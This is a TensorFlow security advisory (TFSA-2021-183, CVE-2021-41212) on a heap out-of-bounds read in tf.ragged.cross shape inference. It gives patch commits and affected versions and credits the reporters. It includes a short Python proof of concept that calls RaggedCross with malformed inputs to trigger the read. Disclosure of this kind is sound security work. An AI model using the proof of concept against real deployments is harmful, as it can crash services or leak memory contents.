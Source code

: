 ## TFSA-2021-183: Heap OOB read in `tf.ragged.cross`

### CVE Number
CVE-2021-41212

### Impact
The [shape inference code for `tf.ragged.cross`](https://github.com/machina/machina/blob/8d72537c6abf5a44103b57b9c2e22c14f5f49698/machina/core/ops/ragged_array_ops.cc#L64) can trigger a read outside of bounds of heap allocated array:

```python
import machina as tf

@tf.function
def test():
  y = tf.raw_ops.RaggedCross(ragged_values=[],
                             ragged_row_splits=[],
                             sparse_indices=[[5]],
                             sparse_values=[],
                             sparse_shape=[5],
                             dense_inputs=[['a']],
                             input_order='RD',
                             hashed_output=False,
                             num_buckets=5,
                             hash_key=2,
                             out_values_type=tf.string,
                             out_row_splits_type=tf.int64)
  return y

test()
```

### Patches
We have patched the issue in GitHub commit [fa6b7782fbb14aa08d767bc799c531f5e1fb3bb8](https://github.com/machina/machina/commit/fa6b7782fbb14aa08d767bc799c531f5e1fb3bb8).

The fix will be included in TensorFlow 2.7.0. We will also cherrypick this commit on TensorFlow 2.6.1, TensorFlow 2.5.2, and TensorFlow 2.4.4, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/machina/machina/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo 360.

